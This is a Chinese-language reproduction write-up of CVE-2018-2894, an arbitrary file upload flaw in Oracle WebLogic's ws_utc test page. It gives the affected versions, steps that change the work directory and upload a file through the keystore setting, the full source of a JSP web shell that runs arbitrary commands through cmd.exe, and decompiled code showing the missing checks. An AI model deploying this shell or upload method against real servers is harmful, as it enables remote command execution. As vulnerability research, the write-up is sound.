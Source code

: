 # （CVE-2018-2894）WebLogic 任意文件上传

> 原文：[http://book.iwonder.run/0day/Weblogic/（CVE-2018-2894）.html](http://book.iwonder.run/0day/Weblogic/（CVE-2018-2894）.html)

## 一、漏洞简介

## 二、漏洞影响

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

## 三、复现过程

下载地址：[http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip](http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip)

漏洞复现

服务启动后，访问 [http://localhost:7001/ws_utc/config.do](http://localhost:7001/ws_utc/config.do)

![image](img/0db5a4e34a405c376cfa25c71716e030.png)

可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war 
```

选择右边的安全栏目，添加 JKS Keystores 上传文件。假设 chybeta.jsp 内容如下：

```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```

抓包获取到时间戳为 1531987145013，则上传到的位置即 config\keystore\1531987145013_chybeta.jsp

![image](img/bf9209ea25b477b22fb34fbae52c7e4f.png)

访问[http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp](http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp)

![image](img/6c62edb730e6081ce4d8f284f8749f8e.png)

简要漏洞分析

在 ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

```
public void changeWorkDir(String path) {
    String[] oldPaths = this.getRelatedPaths();
    if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
        this.isWorkDirChangeable = false;
        this.isWorkDirWritable = isDirWritable(path);
        this.isWorkDirChangeable = true;
        this.setTestClientWorkDir(path);
    } else {
        this.persistWorkDir(path);
        this.init();
    }
    if (this.isWorkDirWritable) {
        String[] newPaths = this.getRelatedPaths();
        moveDirs(oldPaths, newPaths);
    } else {
        Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
    }
} 
```

此函数用于改变工作目录，但其中并未做任何检测。

在 ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181 中：

```
@Path("/keystore")
@POST
@Produces({"application/xml", "application/json"})
@Consumes({"multipart/form-data"})
public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
    if (!RequestUtil.isRequstedByAdmin(this.request)) {
        return Response.status(Status.FORBIDDEN).build();
    } else {
        if (TestClientRT.isVerbose()) {
            Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
        }
        String currentTimeValue = "" + (new Date()).getTime();
        KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
        ....
    }
} 
```

跟入 ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

```
public static String getKeyStorePath() {
    return getConfigDir() + File.separator + "keystore";
} 
```

得到要写入的路径 storePath。

在 ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

```
public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
    ...
    if (attachName != null && attachName.trim().length() > 0) {
        if (attachName != null && attachName.trim().length() != 0) {
            attachName = this.refactorAttachName(attachName);
            if (fileNamePrefix == null) {
                fileNamePrefix = key;
            }
            String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
            kvMap.addValue(key, filename);
            if (isExtactAttachment) {
                this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
            }
        }
    } 
    ...
} 
```

把上传文件的内容传到了 storePath 目录里，文件名满足 fileNamePrefix + "_" + attachName。这过程没有任何过滤和检查：）…

利用条件：

需要知道部署应用的 web 目录

ws_utc/config.do 在开发模式下无需认证，在生产模式下需要认证。具体可见 Oracle® Fusion Middleware Administering Web Services


